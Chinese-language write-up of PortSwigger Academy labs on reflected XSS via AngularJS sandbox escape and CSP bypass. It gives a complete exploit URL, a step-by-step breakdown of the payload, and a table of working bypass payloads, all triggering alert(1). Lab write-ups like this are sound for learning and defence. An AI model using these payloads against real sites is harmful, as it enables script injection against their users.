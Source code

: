 這題實在太難，我對 AngularJS 的機制完全不熟，所以直接參考答案


```
https://0a8e00220480a2e880200325008600b8.web-security-academy.net/?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

這題我測出來的限制是

1. `'` 會被轉譯成 `&apos;`
2. search 總長度 120 字以內
3. `?search=1&x=3` 會產生以下 html，這點很重要，代表我們可以控制 `$scope.query[key]` 的 `key`


```html
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '1';
    $scope.value = $parse(key)($scope.query);
    var key = 'x';
    $scope.query[key] = '3';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">3 search results for 3</h1>
```

這個 payload 的分析如下

1. `1&` 是因為要讓這段趕快跳過


```js
var key = "search";
$scope.query[key] = "1";
```

2. `toString()` => `'[object Undefined]'`，讓我們可以不用透過 `''` 的方式來創建字串
3. `''.constructor.prototype.charAt=[].join` 前面的工具包有介紹到
4. `''.fromCharCode(120,61,97,108,101,114,116,40,49,41)` 前面的工具包有介紹到

這題是真的精妙，我從來沒想過可以用 `toString()` 的方式來構建字串，學習了

## Lab: Reflected XSS with AngularJS sandbox escape and CSP

| Dimension | Description                                                                                                                             |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection#how-does-an-angularjs-csp-bypass-work |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp    |

我們有的工具包如下：

| Malicious JavaScript                                                                 | Description                                                                                                                         |
| ------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------- |
| `<input autofocus ng-focus="$event.path\|orderBy:'[].constructor.from([1],alert)'">` | `$event.path` contains an array of DOM objects which also contains the window object as the last element before Chrome 109          |
| `<input autofocus ng-focus=$event.composedPath()\|orderBy:'(y=alert)(1)'>`           | `$event.composedPath()` contains an array of DOM objects which also contains the window object as the last element after Chrome 109 |
| `[1].map(alert)`                                                                     | Use `alert` as callback function                                                                                                    |
| `[alert].pop()(1)`                                                                   | `[alert].pop() === alert`                                                                                                           |
| `(y=alert)(1)`                                                                       | Use assignment cause AngularJS think it's safe                                                                                      |
